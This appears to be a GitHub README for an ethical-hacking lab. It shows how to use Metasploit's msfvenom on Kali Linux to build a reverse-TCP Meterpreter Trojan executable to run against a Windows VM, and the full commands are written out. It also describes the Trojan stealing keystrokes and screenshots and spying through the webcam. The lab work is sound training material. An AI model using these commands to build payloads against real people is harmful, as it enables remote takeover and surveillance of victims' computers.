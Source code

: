 # Ethical Hacking 2

<h2>Description:</h2>

- Use Metasploit in Kali Linux to create our own virus [Trojan malware]
  - Learn how to create a reverse TCP Trojan executable containing Meterpreter
  - Learn how Trojan malware can steal screenshots, keystrokes, and spy on victims through webcam
- Learn how to create a web sharable and executable folder to hack from a Kali Linux VM into a Windows VM
  - Learn how to listen with Kali Linux while hacking Windows VM



<h2>Environment Used</h2>

- Kali Linux and Windows VM : 
  - Network Attached to: NAT Network
  - Name: PublicNAT
  - IP Address = 10.0.9 Network
 
- Tool Used: Metasploit from Kali Linux
 
<h2></h2>

<h2>Launching Metasploit on Kali Linux VM</h2>

1. Open up Kali Linux on the Oracle VM Application

2. Click on the top left corner of the VM for application > Scroll down to 8. Exploitation Tools > Metasploit framework

<p align="left">
Metaspolit Navigation <br/>
<img src="https://i.imgur.com/O6F3Kyq.png" height="35%" width="35%" alt=""/>
<br />

3. Creating a Reverse TCP Trojan executable containing Meterpreter:
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your Kali Linux IP Address] -f exe -o ~/Desktop/["Name".exe]
      - -p = payload
      - windows/meterpreter/reverse_tcp = can just send people this file and if they click on it then it will give us a reverse TCP connection
      - LHOST = Local Host Address; Kali Linux IP Address
      - -f exe = format of an executable file
      - -o ~/Desktop/"name".exe = output; ~/Desktop = saving on desktop on Kali Linux; /"name".exe = naming the program
    - Metasploit framework Venom is a payload creation tool
      - Allows to embed a payload called Meterpreter
      - Meterpreter = tool that gives remote shell/ complete control over a remote computer

4. Msfvenom Payload and Payload successfully created on the Desktop of Kali Linux:
    - >msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.9.4 -f exe -o ~/Desktop/Diablo5.exe

<p align="left">
Msfvenom Payload and Payload Created on Desktop <br/>
<img src="https://i.imgur.com/z5eNv1m.png" height="35%" width="35%" alt=""/>
<br />
